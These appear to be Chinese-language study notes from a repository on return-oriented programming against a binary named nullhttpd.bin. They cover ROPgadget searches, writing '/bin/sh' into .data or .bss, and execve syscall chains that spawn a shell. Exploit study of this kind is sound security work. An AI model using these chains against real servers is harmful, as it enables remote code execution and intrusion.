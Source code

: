 ## 任意写
向任意内存地址rw写入内容"/bin/sh"，然后调用sys。

需要寻找往内存中写入数据的gadget（mov）
```
ROPgadget --binary nullhttpd.bin --only "pop|ret" | grep "rdi"
ROPgadget --binary nullhttpd.bin --only "mov|ret"
ROPgadget --binary nullhttpd.bin --only "mov|pop|ret"
ROPgadget --binary nullhttpd.bin | grep -v "jmp" | grep "mov qword"

----------------------
mov, stos, movs, movzx
```

然后查找控制寄存器的值的gadget(pop rdi)

然后寻找可写入地址(.data 和.bss)，和写入 p64(0x68732f6e69622f) （"/bin/sh"）
```
readelf -S nullhttpd.bin
---------------------------
pop rsi, ret
pop rdi, ret
mov qword ptr [rsi], rdi
pop rdi, ret
sys_addr
```

调用sys（设置参数rdi）
```
ROPgadget --binary nullhttpd.bin --only "pop|ret" | grep "rdi"
```

## evecve调用
调用execve(”/bin/sh”, 0, 0)。需要设置
`rdi`:"/bin/sh"地址
`rsi`:0
`rdx`:0
`rax`:0x3b
寻找syscall指令地址

```
ROPgadget --binary nullhttpd.bin --only "pop|ret" | grep "rsi"
ROPgadget --binary nullhttpd.bin --only "pop|ret" | grep "rdx"
ROPgadget --binary nullhttpd.bin --only "mov|pop|ret" | grep "eax"
ROPgadget --binary nullhttpd.bin | grep "syscall"

-------------------
基于1写入/bin/sh，（binsh_addr, 0, 0）
pop rdi, ret
pop rsi, ret
pop rdx, ret
pop eax, ret  | mov eax, 0x3b
syscall_addr
```


## 可控参数检查
rdi, rsi, rdx, rcx, r8, r9 或ecx
```
ROPgadget --binary nullhttpd.bin --only "pop|ret" | grep "rcx"
ROPgadget --binary nullhttpd.bin --only "mov|pop|ret" | grep "rcx"
ROPgadget --binary nullhttpd.bin | grep -v "jmp" | grep "ret" | grep "r8"
ROPgadget --binary nullhttpd.bin | grep -v "jmp" | grep "ret" | grep "xchg" | grep "r8"

-------------------
pop, mov，xchg, xor

pop rdi, ret
pop rsi, ret
pop rdx, ret
pop rcx, ret
pop r8, ret
pop r9, ret

mov rdi, ret
mov rsi, ret
mov rdx, ret
mov rcx, ret
mov r8, ret
mov r9, ret

check_argv_addr
```

设置可控参数，然后调用check_argv(返回到那个地址)

| register | value    |
| -------- | -------- |
| rdi      | 0x100001 |
| rsi      | 0x100002 |
| rdx      | 0x100003 |
| rcx      | 0x100004 |
| r8       | 0x100005 |
| r9       | 0x100006         |


## 目录
- binary
- debug.sh
- run.sh
- gadget
- rop.py
- rop1.py
- rop2.py
- rop3.py
- inp
